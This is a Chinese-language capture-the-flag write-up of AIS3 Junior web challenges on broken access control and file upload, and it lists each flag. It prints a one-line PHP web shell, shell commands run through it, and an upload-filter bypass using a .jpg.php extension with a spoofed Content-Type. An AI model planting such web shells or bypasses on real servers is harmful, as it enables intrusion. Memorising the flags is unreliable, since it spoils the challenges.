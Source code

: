 ### BAC02
### Step 1:
看到跟BAC01一樣的網站，直接用同樣的方法打至/admin
發現被導至ERROR
![image](https://hackmd.io/_uploads/HJlQ6wR50.png)
### Step 2:
去Burp中的HTTP History看，發現其實admin有請求成功，並獲得FLAG
### FLAG：AIS3_Junior{BabyBRokenAccEssControoooooool}
![image](https://hackmd.io/_uploads/SkwsTwR5A.png)

## 02-File_Upload
### FIL 01
### Step 1:
看到右上角有Upload Area，點他便進到檔案上傳頁面中
![image](https://hackmd.io/_uploads/Hk9bkd09C.png)
### Step 2:
製作一個php檔案，內含```<?php system($_GET['cmd']); ?>```以控制主機使我能透過網頁請求操縱它的終端機，並上傳該檔案，發現上傳成功以及上傳後檔案位於資料庫的位置。
![image](https://hackmd.io/_uploads/BJnKgOAcC.png)
### Step 3:
請求該路徑並在最後加上```cmd=ls```查看目錄中有什麼資料
![image](https://hackmd.io/_uploads/ByOaluA9C.png)
### Step 4:
發現沒有FLAG相關資料，因此改為請求```cmd=ls ../```發現父目錄中有FLAG
![image](https://hackmd.io/_uploads/HygYWuC9C.png)
![image](https://hackmd.io/_uploads/B1CWfd0qC.png)
### Step 5:
直接請求```cat ../FLAG```便可獲得FLAG
### FLAG：AIS3_Junior{FirstWEBSHELLXDDD}
![image](https://hackmd.io/_uploads/SJkPMdRcA.png)

### FIL02

### Step 1:
發現網頁一樣，嘗試以相同方法攻擊，發現php檔會被攔截
![image](https://hackmd.io/_uploads/S1RaGOC5A.png)
### Step 2:
開啟Burp Intercepte功能，將副檔名改為.jpg.php，並攔截請求，將Content-Type改為 image/jpg後按下forward
![image](https://hackmd.io/_uploads/SJSZEdRc0.png)
### Step 3:
發現上傳成功，接著以相同方式請求並獲得FLAG。
### FLAG：AIS3_Junior{BabyUploadBypass}
![螢幕擷取畫面 2024-08-18 030334](https://hackmd.io/_uploads/SJLwEOAc0.png)
![image](https://hackmd.io/_uploads/rybYEO0c0.png)
